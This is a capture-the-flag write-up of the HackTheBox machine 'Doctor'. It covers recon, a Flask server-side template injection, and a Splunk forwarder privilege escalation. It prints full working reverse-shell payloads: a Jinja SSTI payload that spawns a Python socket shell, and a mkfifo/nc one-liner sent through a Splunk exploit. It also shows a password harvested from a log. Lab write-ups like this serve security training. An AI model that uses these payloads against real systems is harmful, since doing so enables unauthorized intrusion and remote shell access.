 ```yaml
---
title: "HackTheBox — Doctor Writeup"
date: 2020-10-15 10:50:00 +0530
categories: [Hackthbox,Machine,Linux]
tags: [Server Side Template Injection, Splunk,CVE-2020-9484]
image: /images/doctor/icon.png
---
```

> Doctor from HackTheBox is an easy linux machine. We'll start with basic enumeration with nmap as usual.

## Reconnaissance

Let's begin with `nmap` to discover open ports and services:

```shell
nmap -sC -sV 10.10.10.209 -on=nmap.txt
# Nmap 7.80 scan initiated Sat Oct 17 13:33:03 2020 as: nmap -sC -sV -oN=nmap.txt 10.10.10.209
Nmap scan report for 10.10.10.209
Host is up (0.30s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 17 13:34:16 2020 -- 1 IP address (1 host up) scanned in 73.30 seconds

```
Based on the scan results we can port see `22,80 and 8089` are open, so lets check 80 first.

## HTTP - Port 80

Looking at https://10.10.10.209 we found the `info@doctors.htb`.

`home page`
![website](/images/doctor/1website.png)

![info](/images/doctor/2info.png)

let's add this domain to `/etc/hosts` , `10.10.10.209 doctors.htb`.
and lets check what is it `http://doctors.htb`.

![login](/images/doctor/3login.png)

we get a login page.lets create a new user and get inside .

![register](/images/doctor/4registerandogin.png)

![index](/images/doctor/5doctorindex.png)

check the source code of page `ctrl+u` , we found the commented arhive herf.
lets visit this page.

![index](/images/doctor/5archive_blank.png)

this is a blank page with only title if we check the source code of page.
![index](/images/doctor/6archive.png)


from wappayzer we find its using flask with python3
![index](/images/doctor/wappalyzer.png)


lets create a new message.

![index](/images/doctor/8testpost.png)

upon refreshing the archive page and viewing the code .

![index](/images/doctor/testarchive.png)



### SSTI (server-side template injection)

lets first test for server-side template injection.
  [**Here**](https://portswigger.net/web-security/server-side-template-injection) is the detailed explanation of  `SSIT`.


![index](/images/doctor/9testpost.png)

we can verify `SSIT` by refreshing archive source page.
![brup](/images/doctor/10ssti_archive.png)


### Shell

we verify that this site is vunerable to `SSIT`.
now lets use this vun for getting shell.
for that we know there is python runing on the machine
lets use python script for reverse shell.

```shell
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IP_ADDRESS\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
repace IP_address and create a new message. and listen with `nc -nlvp 4444`.

![brup](/images/doctor/shellpost.png)


upon refreshing archve page,  we get the shell.

```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/doctor]
└──╼ $nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:36254.
ls
blog
blog.sh
whoami
web
python3 -c 'import pty; pty.spawn("/bin/bash")'
web@doctor:~$ 
```



## User

### Enumeration

lets enum for user
lets check the apache folder first.

```shell
web@doctor:/var/log/apache2$ ls
access.log        access.log.5.gz  error.log.10.gz  error.log.5.gz
access.log.1      access.log.6.gz  error.log.11.gz  error.log.6.gz
access.log.10.gz  access.log.7.gz  error.log.12.gz  error.log.7.gz
access.log.11.gz  access.log.8.gz  error.log.13.gz  error.log.8.gz
access.log.12.gz  access.log.9.gz  error.log.14.gz  error.log.9.gz
access.log.2.gz   backup           error.log.2.gz   other_vhosts_access.log
access.log.3.gz   error.log        error.log.3.gz
access.log.4.gz   error.log.1      error.log.4.gz
```
we got a backup file , lets check for any credintialsit have.

```shell
web@doctor:/var/log/apache2$ cat backup | grep password
cat backup | grep password
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```

got a password `Guitar123`.

lets check this password if it gives us any user access.
we got the user shaun on home directory so lets check for shaun

```shell
web@doctor:/home$ su shaun
Password: Guitar123
shaun@doctor:/home$ ls
shaun  web
shaun@doctor:/home$ cd shaun
shaun@doctor:~$ ls
user.txt 
```

we got a user. 


## Elevating privilige: shaun -> root

### Enumeration

going back to nmap scan

```shell
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
```

we see the machine is running Splunk on port `8089`.
lets check `/opt` folder

```shell
shaun@doctor:~$ cd /opt
shaun@doctor:/opt$ ls
clean  splunkforwarder
```

and we have an expoit for splunkforwarder.
[[**Here**]](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2) is the link of the exploit. download and fire it and 
listen with netcat.
at this exploit requires python2 and other modules we are using remote exploit.


### Exploit

`command for exploit`

```shell
python3 exploit.py --host doctors.htb --port 8089 --lhost 10.10.14.38 --username shaun --password Guitar123 --payload 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 4445 >/tmp/f' 
```



```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/doctor]
└──╼ $python3 exploit.py --host doctors.htb --port 8089 --lhost 10.10.14.38 --username shaun --password Guitar123 --payload 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 4445 >/tmp/f'
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmp0us4b5f0.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.38:8181/
10.10.10.209 - - [21/Oct/2020 13:12:47] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```

```shell
┌─[✗]─[oxy@oxy]─[~/Practice/hackthebox/machine/doctor]
└──╼ $nc -nlvp 4445
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:60706.
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls
root.txt
```


And we pwned the Box !

Thanks for reading.
